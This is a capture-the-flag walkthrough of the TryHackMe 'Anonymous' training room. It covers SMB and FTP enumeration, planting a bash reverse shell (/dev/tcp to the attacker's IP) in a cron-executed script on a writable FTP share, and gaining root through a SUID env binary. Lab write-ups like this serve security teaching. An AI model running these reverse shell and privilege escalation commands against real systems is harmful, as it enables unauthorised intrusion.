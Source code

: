 ```yaml
---
title: TryHackMe Anonymous Room Walkthrough
date: 2025-10-31 18:00:00 +0100
categories: [Cybersecurity, Capture The Flag, TryHackMe, Writeups]
tags: [TryHackMe, Anonymous Room, SMB Enumeration, FTP Exploitation, Privilege Escalation]
render_with_liquid: false
---
```


TryHackMe — Anonymous Room Walkthrough
=====================================

Room Overview
-------------

- Difficulty: Medium
- Focus areas: SMB enumeration, FTP abuse, cron exploitation, SUID privesc
- Goal: Capture `user.txt` and `root.txt`

Initial Recon
-------------

I kicked things off with a simple port scan:

```
nmap -sC -sV [target_IP]
```

Open ports came back as 21, 22, 139, and 445. SSH (`22`) was closed off pending credentials, so SMB (`139/445`) and FTP (`21`) became the obvious entry points.

SMB Enumeration
---------------

Anonymous SMB access was enabled:

```
smbclient -L /[target_IP]/ -N
```

The `pics` share allowed read access. I pulled the files locally but they were just benign images. Nothing to extract via `strings` or `steghide`.

FTP Enumeration & Foothold
--------------------------

Anonymous FTP logins were also allowed:

```
ftp [target_IP]
Name: anonymous
Password: [anything]
```

Inside `/scripts` I found three files:

- `to_do.txt` – a small note hinting at housekeeping tasks
- `clean.sh` – bash script that logs “nothing to delete”
- `removed_files.log` – empty, confirming the cleanup script runs via cron

Because the FTP share was writable, I replaced `clean.sh` with a reverse shell payload:

```
#!/bin/bash
bash -i >& /dev/tcp/[My_IP]/1234 0>&1
```

After uploading the modified script, I started a listener with `rlwrap nc -lvn 1234`. A few minutes later, the cron job executed and I caught a shell as the service user.

Shell Stabilisation
-------------------

I upgraded the shell for quality-of-life improvements:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

From there I grabbed `user.txt` in the home directory.

Privilege Escalation
--------------------

I ran `linpeas.sh` to enumerate privilege escalation paths. The standout finding was an unusual SUID binary, `env`, owned by root. `GTFOBins` confirmed it could be abused to overwrite files as root:

```
/usr/bin/env /bin/bash -p
```

With the resulting root shell, I recovered `root.txt` from `/root`.



